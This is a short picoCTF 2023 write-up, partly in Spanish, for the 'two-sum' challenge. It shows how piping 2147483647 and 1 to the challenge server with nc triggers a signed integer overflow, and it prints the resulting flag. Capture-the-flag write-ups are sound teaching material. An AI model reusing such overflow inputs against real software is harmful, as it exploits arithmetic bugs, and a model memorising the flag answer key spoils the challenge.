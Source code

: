 #  two-sum

## Descripcion
Can you solve this?What two positive numbers can make this possible: `n1 > n1 + n2 OR n2 > n1 + n2`Enter them here `nc saturn.picoctf.net 51261`. [Source](https://artifacts.picoctf.net/c/456/flag.c
## Pistas
- Integer overflow
- Not necessarily a math problem
## Solucion
```
viendo el codigo vemos que es un numero positivo y entero por lo que agregamos el entero mas grande posible y el menor numero positivo sin contar al 0 obteniendo la bandera:
echo -e "2147483647\n1" | nc saturn.picoctf.net 51261
n1 > n1 + n2 OR n2 > n1 + n2 
What two positive numbers can make this possible: 
You entered 2147483647 and 1
You have an integer overflow
YOUR FLAG IS: picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}


```

## Bandera

picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}

## Notas adicionales

## Referencias
- [WriteUp](https://github.com/snwau/picoCTF-2023-Writeup/blob/main/Binary%20Exploitation/two-sum/two-sum.md)